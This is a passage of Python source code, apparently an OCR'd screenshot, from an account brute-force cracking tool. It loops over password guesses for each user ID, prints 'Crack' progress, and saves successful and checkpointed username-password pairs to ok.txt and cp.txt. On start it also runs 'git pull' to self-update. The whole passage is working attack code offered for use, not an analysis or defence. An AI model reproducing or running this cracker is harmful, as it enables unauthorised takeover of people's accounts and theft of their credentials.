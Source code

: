         save = open("cp.txt", "a+")
        save.write(str(username) + " • " + str(password) + " • "+ str(ttl)+"\n")
        save.close()
        return True
    return False
  def brute(self, fl):
    if self.setpw == False:
      self.loop += 1
      for pw in fl["pw"]:
        username = fl["id"].lower()
        password = pw.lower()
        try:
          if self.bruteRequest(username, password) == True:
            break
        except:
          continue
        print(("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.loop,len(self.fl),len(self.ok),len(self.cp))), end=' ');sys.stdout.flush()
    else:
      self.loop += 1
      for pw in self.setpw:
        username = users["id"].lower()
        password = pw.lower()
        try:
          if self.bruteRequest(username, password) == True:
            break
        except:
          continue
        print(("\r\x1b[0;33m[\x1b[0;37mCrack\x1b[0;33m]\x1b[0;37m %s/%s \x1b[0;32m[\x1b[0;37mOK : %s\x1b[0;32m] \x1b[0;33m[\x1b[0;37mCP : %s\x1b[0;33m]\x1b[0;37m"%(self.loop,len(self.fl),len(self.ok),len(self.cp))), end=' ');sys.stdout.flush()

### RESULT ###

def results(Dapunta,Krahkrah):
        if len(Dapunta) !=0:
                print(("[OK] : "+str(len(Dapunta))))
        if len(Krahkrah) !=0:
                print(("[CP] : "+str(len(Krahkrah))))
        if len(Dapunta) ==0 and len(Krahkrah) ==0:
                print("\n")
                print((k+"["+p+"!"+k+"]"+p+" No Result Found"))

def ress():
    os.system("clear")
    banner()
    print((k+"\n[ "+p+"Result Crack"+k+" ]"+p))
    print((h+"\n[ "+p+"OK"+h+" ]"+p))
    try:
        os.system("cat ok.txt")
    except IOError:
        print((k+"["+p+"!"+k+"]"+p+" No Result Found"))
    print((k+"\n[ "+p+"CP"+k+" ]"+p))
    try:
        os.system("cat cp.txt")
    except IOError:
        print((k+"["+p+"!"+k+"]"+p+" No Result Found"))
    input(k+"\n[ "+p+"Back"+k+" ]"+p)
    menu()

if __name__=="__main__":
	os.system("git pull")
	country()
